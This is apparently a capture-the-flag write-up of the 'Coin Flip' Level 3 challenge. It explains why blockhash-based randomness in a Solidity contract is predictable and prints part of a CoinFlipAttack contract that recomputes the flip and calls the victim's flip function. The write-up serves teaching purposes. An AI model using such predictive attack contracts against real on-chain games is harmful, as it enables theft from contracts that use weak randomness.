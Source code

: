 # Coin Flip Challenge - Level 3

```yml
This smart contract has a vulnerability, it's use of the public source of randomness makes it vulnerable because:
```
- the ethereum blockchain is fully transparent and everything is public and can be viewed,

```Solidity
/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip(bool _guess) public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
  uint256 coinFlip = blockValue.div(FACTOR); 
  bool side = coinFlip == 1 ? true : false;
```
  - after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity
victimContract.flip(side);
```

## 💥 The attack contract in detail:

```yml
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.5.0; 

import "./CoinFlip.sol";
// outdated import for SafeMath, pragma 0.8.0 has SafeMath included in version
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

/// @title attack contract, calculates correct side 10 times in a row
/// @author Web3 Blockchain Developer 
contract CoinFlipAttack {
    /** 
    * @notice Using for directive, using imported SafeMath functions from openzeppelin,
    * for unit256 to prevent overflow and underflow attacks. 
    */
    using SafeMath for uint256;
```
- the attack contract also uses the state variable FACTOR from the victim contract,

```Solidity
/// @notice public state variable assigned in constructor
    CoinFlip public victimContract; 
    
    // state variable assigned in function flip()
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    /** 
    * @notice victim address belonging to CoinFlip assigned as public state variable victimContract 
    * during deployment of attack contract 
    */
    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }
```

    
    
